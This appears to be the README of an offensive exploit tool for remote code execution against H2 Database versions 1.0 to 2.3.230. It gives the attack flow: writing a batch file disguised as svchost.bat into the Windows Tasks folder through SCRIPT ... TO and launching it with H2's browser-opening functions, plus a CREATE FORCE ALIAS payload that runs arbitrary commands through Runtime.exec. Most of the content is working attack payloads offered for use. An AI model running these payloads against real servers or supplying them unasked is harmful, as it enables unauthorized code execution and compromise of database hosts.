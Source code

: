 # H2 Database - RCE  
H2 Database (1.0 ~ 2.3.230) - Remote Code Execution

H2 Database RCE - ViperX Offensive Security

Date: 17/07/2024

The exploit flow operates with the following logic: 
~ for versions <(1.4) we create a 'dummy' table, and write the output log into a ```
C:\Windows\Tasks\svchost.bat``` file by using ```
SCRIPT SIMPLE NODATA NOSETTINGS TO '{BAT_FULLPATH}'```

  
  '-> With this bat file we can perform remote code execution with Arbitrary File Writing vulnerability.
  
  '-> for old versions we open the .bat file with "org.h2.util.StartBrowser.openURL" and for the newest one "org.h2.tools.Server.openBrowser"

~ In case of versions >(1.4), we just perform JAVA Code Execution through 'CREATE ALIAS' function:
```

  '->  CREATE FORCE ALIAS CMD_INJECT AS $$
  void pwshInject() throws Exception {
      Runtime.getRuntime().exec("%s");
  }
  $$;
```
